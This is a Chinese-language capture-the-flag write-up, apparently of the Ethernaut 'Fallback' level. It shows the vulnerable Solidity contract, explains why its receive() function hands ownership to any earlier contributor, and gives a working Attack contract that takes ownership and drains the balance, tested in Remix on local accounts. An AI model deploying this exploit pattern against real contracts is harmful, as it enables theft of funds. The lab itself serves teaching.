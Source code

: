 

# Fallback

## 漏洞代码

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Fallback {

  mapping(address => uint) public contributions;
  address public owner;

  constructor() {
    owner = msg.sender;
    contributions[msg.sender] = 1000 * (1 ether);
  }

  modifier onlyOwner {
        require(
            msg.sender == owner,
            "caller is not the owner"
        );
        _;
    }

  function contribute() public payable {
    require(msg.value < 0.001 ether);
    contributions[msg.sender] += msg.value;
    if(contributions[msg.sender] > contributions[owner]) {
      owner = msg.sender;
    }
  }

  function getContribution() public view returns (uint) {
    return contributions[msg.sender];
  }

  function withdraw() public onlyOwner {
    payable(owner).transfer(address(this).balance);
  }

  receive() external payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
}
```

## 目标

Look carefully at the contract's code below.

You will beat this level if

1. you claim ownership of the contract   获取合约的所有权
2. you reduce its balance to 0  窃取所有余额

 Things that might help

- How to send ether when interacting with an ABI
- How to send ether outside of the ABI
- Converting to and from wei/ether units (see `help()` command)
- Fallback methods

## 分析&攻击

结合合约代码和目标看，withdraw()可以提取所有余额，但是用onlyOwner修饰过，只允许owner调用，因此只需要让owner变成我们自己就能达到两个目标。总共三个修改这个变量的地方，constructor()、contribute()和receive()

（1）constructor()是构造函数，我们调用不了；

（2）contribute()是public，可以调用，但是有条件，贡献的币必须比原有owner贡献的高，然而owner部署合约的时候就贡献了1000eth，每次贡献的msg.value还被限制必须 < 0.001 ether，所以要走到if(contributions[msg.sender] > contributions[owner])，得调用1000/0.001次contribute，显然不行

（3）receive()是收到转账是触发，满足msg.value > 0 && contributions[msg.sender] > 0就能让owner = msg.sender;

因此先贡献一点点eth，然后给漏洞合约转账，就能满足这个条件

攻击合约代码：

```
contract Attack{
    Fallback public fb; // Bank合约地址

    // 初始化Bank合约地址
    constructor(Fallback _fb) payable {
        fb = _fb;
    }
    // 先贡献然后转钱 要满足require(msg.value > 0 && contributions[msg.sender] > 0);这个条件
    function contributeIt() external payable{
        fb.contribute{value:1}();
    }
    function attackIt() external payable{
        //fb.contribute{value:1}();
        (bool isSuccess, /* memory data */ ) = payable(address(fb)).call{value: 1 wei}("");
        require(isSuccess, "Failure! Ether not send.");
    }
    //最后窃取漏洞合约所有的币
    function withdrawIt() external payable{
        fb.withdraw();
    }
    receive() external payable {
        
    }
}
```

我们用remix简单测试下

先用第一个账户部署Fallback合约

![image-20240328094234694](README.assets/image-20240328094234694.png)

可以看到当前owner是0x5B38Da6a701c568545dCfcB03FcB875f56beddC4这个账户，贡献值很高

![image-20240328094316267](README.assets/image-20240328094316267.png)

此时记住Fallback合约的地址（0xDA0bab807633f07f013f94DD0E6A4F96F8742B53），然后用第二个账户部署Attack合约，给第二个合约打点初始资本（这里给了10000wei），用于后面给Fallback合约做贡献

![image-20240328094434841](README.assets/image-20240328094434841.png)

先满足第一个条件，让贡献值大于0

![image-20240328094614594](README.assets/image-20240328094614594.png)

然后执行attackIt

![image-20240328094649614](README.assets/image-20240328094649614.png)

可以看到owner已经变成我们attack合约的地址了，然后执行withdrawIt就能提取所有贡献的币

![image-20240328095055376](README.assets/image-20240328095055376.png)

# Fallout

